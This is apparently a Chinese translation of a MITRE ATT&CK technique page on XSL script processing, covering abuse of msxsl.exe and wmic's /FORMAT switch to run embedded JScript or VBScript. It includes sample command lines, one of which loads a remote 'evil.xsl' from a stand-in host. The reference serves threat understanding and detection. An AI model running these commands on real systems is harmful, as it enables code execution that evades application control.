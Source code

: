```yaml
---
hide:
  - toc
---
```


# XSL脚本处理

攻击者可能通过在XSL文件中嵌入脚本来绕过应用程序控制并隐藏代码执行。可扩展样式表语言（XSL）文件通常用于描述XML文件中的数据处理和呈现。为了支持复杂操作，XSL标准包括对嵌入多种语言脚本的支持。（引用：Microsoft XSLT Script Mar 2017）  攻击者可能滥用此功能来执行任意文件，同时可能绕过应用程序控制。类似于[受信任的开发人员实用程序代理执行](https://attack.mitre.org/techniques/T1127)，Microsoft命令行转换实用程序二进制文件（msxsl.exe）（引用：Microsoft msxsl.exe）可以安装并用于执行嵌入在本地或远程（URL引用）XSL文件中的恶意JavaScript。（引用：Penetration Testing Lab MSXSL July 2017）由于msxsl.exe默认未安装，攻击者可能需要将其与丢弃的文件一起打包。（引用：Reaqta MSXSL Spearphishing MAR 2018）Msxsl.exe接受两个主要参数，一个XML源文件和一个XSL样式表。由于XSL文件是有效的XML，攻击者可能会两次调用相同的XSL文件。使用msxsl.exe时，攻击者还可能为XML/XSL文件指定任意文件扩展名。（引用：XSL Bypass Mar 2019）  命令行示例：（引用：Penetration Testing Lab MSXSL July 2017）（引用：XSL Bypass Mar 2019）  * <code>msxsl.exe customers[.]xml script[.]xsl</code> * <code>msxsl.exe script[.]xsl script[.]xsl</code> * <code>msxsl.exe script[.]jpeg script[.]jpeg</code>  此技术的另一种变体称为“Squiblytwo”，涉及使用[Windows管理工具](https://attack.mitre.org/techniques/T1047)在XSL文件中调用JScript或VBScript。（引用：LOLBAS Wmic）此技术还可以执行本地/远程脚本，并且类似于其[Regsvr32](https://attack.mitre.org/techniques/T1218/010)/“Squiblydoo”对应物，利用受信任的内置Windows工具。攻击者可能滥用[Windows管理工具](https://attack.mitre.org/techniques/T1047)中的任何别名，只要他们使用/FORMAT开关。（引用：XSL Bypass Mar 2019）  命令行示例：（引用：XSL Bypass Mar 2019）（引用：LOLBAS Wmic）  * 本地文件：<code>wmic process list /FORMAT:evil[.]xsl</code> * 远程文件：<code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code>
